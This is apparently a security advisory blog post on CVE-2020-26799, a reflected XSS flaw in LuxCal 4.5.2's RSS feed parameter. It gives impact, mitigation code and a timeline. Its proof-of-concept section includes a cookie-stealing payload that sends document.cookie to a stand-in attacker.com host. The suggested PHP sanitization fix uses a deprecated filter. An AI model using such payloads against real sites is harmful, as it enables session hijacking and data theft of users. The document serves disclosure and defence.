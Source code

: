 ```yaml
---
title: "Reflected Cross-Site Scripting (XSS) in LuxCal 4.5.2 - CVE-2020-26799"
date: 2025-07-20
tags: ["security", "xss", "luxcal", "reflected-xss", "cve-2020-26799"]
categories: ["Security Research"]
draft: false
url: "/luxcal-reflected-xss-cve-2020-26799/"
_build:
  list: false
  render: true
  publishResources: true
sitemap:
  disable: true
---
```


## Overview

A reflected cross-site scripting (XSS) vulnerability was discovered in LuxCal 4.5.2 which allows an unauthenticated attacker to steal other users' data and perform malicious actions in the context of the victim's browser session.

## Technical Details

**CVE ID:** CVE-2020-26799  
**CVSS Score:** 6.1 (Medium)  
**Affected Versions:** LuxCal v4.5.2  
**Latest Version:** LuxCal v4.7.x (released 2018)  
**Vulnerability Type:** Reflected Cross-Site Scripting (XSS)  

### Affected Component
- File: `index.php`
- Parameter: RSS feed link parameter
- Attack Vector: Network (Unauthenticated)

### Vulnerability Description

The reflected XSS vulnerability exists in the `index.php` file where malicious JavaScript code can be injected as part of the RSS feed link parameter. The application fails to properly sanitize user input before reflecting it back in the HTML response, allowing attackers to execute arbitrary JavaScript in victims' browsers.

## Impact

This vulnerability allows attackers to:

1. **Information Disclosure** - Access sensitive user data and session information
2. **Cookie Stealing** - Hijack user sessions by stealing authentication cookies
3. **Social Engineering Attacks** - Display fake login forms or malicious content
4. **Cross-Site Request Forgery** - Perform actions on behalf of the victim
5. **Credential Harvesting** - Capture user credentials through fake forms
6. **Malware Distribution** - Redirect users to malicious websites

### Attack Scenarios

**Scenario 1: Session Hijacking**
An attacker can craft a malicious URL that steals the victim's session cookies and sends them to an attacker-controlled server.

**Scenario 2: Credential Theft**
The attacker can inject JavaScript that displays a fake login form, capturing credentials when users attempt to log in.

**Scenario 3: Defacement**
Malicious scripts can modify the page content to display unauthorized information or redirect users to malicious sites.

## Proof of Concept

A demonstration of this vulnerability exploitation is available in the following video:

**Video PoC:** [https://youtu.be/npw9jcQ1h1U](https://youtu.be/npw9jcQ1h1U)

### Basic XSS Payload Example
```html
<!-- Malicious URL structure -->
http://target.com/index.php?rssfeed=<script>alert('XSS')</script>

<!-- Advanced payload for cookie stealing -->
http://target.com/index.php?rssfeed=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

## Attack Vectors

- **Network-based**: Remote exploitation via crafted URLs
- **Unauthenticated**: No authentication required to exploit
- **Social Engineering**: Victims can be tricked into clicking malicious links
- **Email/Messaging**: Malicious URLs can be distributed via email or messaging platforms

## Affected Organizations

During penetration testing engagements, this vulnerable version of LuxCal was found to still be in use by various organizations, including enterprise environments, as late as October 2020. This highlights the importance of keeping software updated to the latest versions.

## Mitigation

### Immediate Actions
1. **Update to Latest Version**: Upgrade to LuxCal v4.7.x or later immediately
2. **Input Validation**: Implement proper input sanitization for all user-supplied parameters
3. **Output Encoding**: Ensure all dynamic content is properly encoded before output
4. **Content Security Policy**: Implement CSP headers to prevent XSS execution

### Recommended Fixes
```php
// Example fix for input sanitization
$rssfeed = htmlspecialchars($_GET['rssfeed'], ENT_QUOTES, 'UTF-8');

// Or use a more comprehensive sanitization library
$rssfeed = filter_var($_GET['rssfeed'], FILTER_SANITIZE_STRING);
```

### Security Headers
```apache
# Add these headers to prevent XSS
Header always set X-Content-Type-Options nosniff
Header always set X-Frame-Options DENY
Header always set X-XSS-Protection "1; mode=block"
Header always set Content-Security-Policy "default-src 'self'"
```

## Timeline

- **Discovery:** October 2020 (During penetration testing engagement)
- **CVE Assignment:** CVE-2020-26799 assigned
- **Vendor Status:** LuxCal v4.7.x already available (released 2018)
- **Public Disclosure:** July 20, 2025

## Vendor Information

**Vendor:** LuxSoft  
**Product:** LuxCal Calendar Software  
**Vendor Website:** [https://www.luxsoft.eu/index.php?pge=dload](https://www.luxsoft.eu/index.php?pge=dload)

*Note: The vendor had already released LuxCal v4.7.x in 2018, which addresses this vulnerability. Organizations using older versions should upgrade immediately.*

## References

- [CVE-2020-26799](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26799)
- [LuxSoft Download Page](https://www.luxsoft.eu/index.php?pge=dload)
- [Video Proof of Concept](https://youtu.be/npw9jcQ1h1U)
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## Credit

This vulnerability was discovered during a penetration testing engagement and responsibly disclosed. The discovery highlights the importance of regular security assessments and keeping software updated to the latest versions.

---
*This post is part of our ongoing security research into web applications. For more security insights, visit [https://suryadina.com](https://suryadina.com).*